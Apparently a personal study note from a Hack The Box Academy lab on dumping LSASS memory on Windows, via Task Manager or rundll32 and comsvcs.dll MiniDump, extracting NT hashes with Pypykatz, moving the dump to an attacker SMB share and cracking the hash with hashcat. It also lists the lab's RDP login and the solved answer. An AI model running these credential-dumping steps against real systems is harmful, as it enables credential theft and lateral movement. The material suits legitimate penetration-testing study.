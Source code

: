 
Reference the lessons on LSASS in [[Credential Storage#LSASS]] 




### Dumping LSASS Process Memory

>[! Note ] 
>Best to create a copy of the contents of LSASS process memory via a memory dump. This allows to extract credentials offline 

#### Task Manager Method:

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

- The above creates a file called `lsass.DMP` and is located in:
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
- Transfer `lsass.DMP` to the attack host via [[Attacking SAM#Syntax for smbserver.py]]


#### Rundll32.exe & Comsvcs.dll Method:

>[! Warning] Warning about this dumping method:
> Modern anti-virus will flag this action as malicious!

1) Determine the process ID assigned to lsass.exe in cmd or powershell

##### Find LSASS PID via CMD
```cmd
tasklist /svc
```

##### Find LSASS PID via Powershell
```powershell
Get-Process lsass
```

#### Creating lsass.dmp via Powershell

>[! Hint]
> Be sure to run powershell as admin

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
	- rundll32.exe calls cmsvcs.dll 
	- which then calls MiniDump to dump LSASS process memory to the intended directory


### Extract Credentials via Pypykatz:
> [! Hint]
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of Mimikatz, allowing us to run it on Linux attack hosts

> [! Hint]
> Recall that LSASS stores credentials that have active logon sessions on Windows systems. When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time. If there were any active logon sessions, the credentials used to establish them will be present.

##### Running Pypykatz
```python
pypykatz lsa minidump /home/of/attack/host/Documents/lsass.dmp
```


This will result in subsection output for MSV, WDIGSET, Kerberos, DPAPI

MSV
- This is an authentication package that LSA calls to validate logon attempts against the SAM database.

WDIGEST
- Older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 -2012
- LSASS caches WDIGEST credentials in clear-text
- Microsoft patched this WDIGEST vulnerability and it is also disabled by default

Kerberos
- LSASS `caches passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos. 
- It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.

DPAPI
- A set of APIs in Windows used to encrypt and decrypt DPAPI data blobs
- Mimikatz and Pypykatz can extract the DPAPI masterkey for logged-on users when their data is present in the LSASS process memory.
- The masterkey decrypts the secrets associated with the applications that use DPAPI below:

| Applications                | DPAPI Usage                                                                                 |
| --------------------------- | ------------------------------------------------------------------------------------------- |
| `Internet Explorer`         | Password form auto-completion data (username and password for saved sites).                 |
| `Google Chrome`             | Password form auto-completion data (username and password for saved sites).                 |
| `Outlook`                   | Passwords for email accounts.                                                               |
| `Remote Desktop Connection` | Saved credentials for connections to remote machines.                                       |
| `Credential Manager`        | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more. |

> [! Note ] One user found
> In the example, only one user was found ,`Bob`, so no need to create a text file of hashes
>> ```go
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

## Questions

Username:
```go
htb-student
```

Password:
```go
HTB_@cademy_stdnt!
```

RDP:
```go
xfreerdp /v:10.129.224.38 /u:htb-student /p:HTB_@cademy_stdnt! /cert:ignore
```

1) What is the name of the executable file associated with the Local Security Authority Process?
```go
lsass.exe
```

2) Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)
```go
```

Create a share to connect back to your attack host and specify where to store the dump file:
```go
sudo impacket-smbserver -smb2support Attacking_LSASS ~/Documents
```

>[! Hint ]
>Reference [[Attacking SAM#Syntax for smbserver.py]] to move dump file to attack host share

RDP into the machine with the above xfreerdp command and create the dump file, `lsass.DMP`
![[Pasted image 20250508175203.png]]

On the windows machine, move the lsass.DMP file to the attack host share 
```go
move lsass.DMP \\AttackHostIP\Attacking_LSASS
```


Scroll down and you will see a LogonSession for the user  `Vendor`.
```go
== LogonSession ==
authentication_id 124843 (1e7ab)
session_id 0
username Vendor
domainname FS01
logon_server FS01
logon_time 2025-05-08T22:59:17.942120+00:00
sid S-1-5-21-2288469977-2371064354-2971934342-1003
luid 124843
        == MSV ==
                Username: Vendor
                Domain: FS01
                LM: NA
                NT: 31f87811133bc6aaa75a536e77f64314
                SHA1: 2b1c560c35923a8936263770a047764d0422caba
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [1e7ab]==
                username Vendor
                domainname FS01
                password None
                password (hex)
        == Kerberos ==
                Username: Vendor
                Domain: FS01
        == WDIGEST [1e7ab]==
                username Vendor
                domainname FS01
                password None
                password (hex)

```

Crack the NT hash
```go
hashcat -m 1000 31f87811133bc6aaa75a536e77f64314 /usr/share/wordlists/rockyou.txt --show
31f87811133bc6aaa75a536e77f64314:Mic@123
```



